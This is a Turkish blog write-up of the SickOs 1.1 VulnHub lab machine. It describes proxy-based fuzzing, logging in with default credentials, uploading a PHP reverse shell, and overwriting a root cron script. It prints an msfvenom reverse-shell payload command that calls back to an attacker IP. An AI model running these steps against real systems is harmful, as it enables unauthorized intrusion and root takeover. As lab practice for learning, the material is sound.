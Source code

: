 ```yaml
---
layout: post
title: "Sick0s:1.1 Writeup"
date: 2018-06-08
excerpt: "08 Jun 2018"
comments: false
---
```

Sick0s 1.1 zafiyetli makinasında bizden istenen root yetkilerine erişmek. Quaoar'da karşılaştığımız senaryo ile oldukça benzer.
Makinayı indirmek,daha ayrıntılı bilgi almak için [bu](https://www.vulnhub.com/entry/sickos-11,132/) linki kullanabilirsiniz.

Öncelikle makinaya ait ip adresini buldum.
<figure >
    <img src="/assets/img/sickos/sickosip.png">
</figure>
Ardından basit bir nmap taraması ile açık portları ve üzerinde çalışan öğrendim .
<figure >
    <img src="/assets/img/sickos/sickosnmap.png">
</figure>
Aldığım çıktı sonucunda çok mu basit oldu diye düşünmedim değil. Daha geniş bir port aralığını taramaya karar verdim.
Zaman alan bir tarama olduğu için bu esnada Squid Http Proxy nedir, ne iş yapar diye biraz bakındım. Özet olarak  böyle bir sonuca vardım.
```
 Squid HTTP,HTTPS,FTP gibi web servisleri için proxy cache yapan aynı zamanda internet çıkışlarını filtreliyerek yönetmeyi       sağlayan bir proxy serverdır.
```
Bu proxy server üzerinden bir nmap taraması başlatmadan önce, tarayıcıda proxy ayarlarını set edip 80 portuna gitmeyi denedim ve başarılı oldum. 
<figure >
    <img src="/assets/img/sickos/sickosproxy.png">
</figure>
Dikkatimizi çeken herhangi bir şey ile karşılaşmadım ve proxy üzerinden fuzzing işlemi başlattım.
#### dirb http://192.168.1.53 -p 192.168.1.53:3128
<figure >
    <img src="/assets/img/sickos/sickosdirb.png">
</figure>
http://192.168.1.53/robots.txt adresini ziyaret ettiğimde /wolfcms şeklinde bir entry ile karşılaştım.Wolfcms hakkında daha önce fikir sahibi olmadığım için başlangıçta bir servis olduğunu anlayamadım. Üzerine biraz araştırma yaptıktan sonra PHP tabanlı bir "content management system" olduğunu öğrendim. Muhtemelen zafiyetli bir versiyondur düşüncesiyle, versiyon bilgisinin sızdırıldığı bir sayfa bulmak için baya dolandım. Fakat bir sonuca ulaşamadım.

Exploit ararken http://targetsite.com/wolfcms/?/admin/plugin/file_manager/browse/ şeklinde bir path buldum. Daha önce /wolfcms dizini için fuzzing yapmıştım, fakat  ?/dizin şeklinde yapılandığı için işe yarar çok bir şey dönmemişti.
Bu sayede  login sayfasına erişim sağladım. Daha önceki hatalarımdan ders çıkarıp ilk olarak admin:admin ikilisini denedim ve başarıyla sonuçlandı :)

Tabi ki ilk işim php reverse shell içeren bir php kodu yüklemek oldu.Daha önce fuzzing işlemi sırasında /wolfcms/public/images pathini öğrenmiştim. Files>upload kısmından [buradaki](https://github.com/pentestmonkey/php-reverse-shell) kodu  images/ dizinine  yükleyip, tarayıcıdan çağırdığımda www-data kullanıcısı ile bir shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosshell.png">
</figure>
Sistem hakkında genel bir bilgi sahibi olabilmek için [bu](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) scripti çalıştırdım.

Post exploitation için best practice olarak kabul edilen şeylerden birini yapıp, var olan cron dosyalarını inceledim.
<figure >
    <img src="/assets/img/sickos/sickoscron.png">
</figure>
Dosyalardan birini okuduğumda, root kullanıcısı tarafından her dakika çalıştırılan bir script ile karşılaştım.
<figure >
    <img src="/assets/img/sickos/sickoscron2.png">
</figure>
Scriptin var olduğu dizine gittiğimde güzel bir sürpriz ile karşılaştım.Dosya üzerinde tüm haklara sahiptim.Demek oluyorki dosyayı istediğim gibi manipüle edebilirim.
<figure >
    <img src="/assets/img/sickos/sickospy.png">
</figure>
connect.py dosyasının içeriğini bana shell verecek olan bir python koduyla değiştirdim.Bunun için msfvenom ile bir payload oluşturdum. 
#### msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.55 LPORT=7777 -f raw
connect.py dosyasının içeriğini payload ile değiştirip, ardından bir dinleme başlatıp sistemin scripti çalıştırmasını bekledim. 
<figure >
    <img src="/assets/img/sickos/sickosx.png">
</figure>
Scripti çalıştıran root kullanıcısı olduğu için dolayısıyla bende root yetkileri ile shell elde etmiş oldum.
<figure >
    <img src="/assets/img/sickos/sickosroot.png">
</figure>
<figure >
    <img src="/assets/img/sickos/sickos.gif">
</figure>
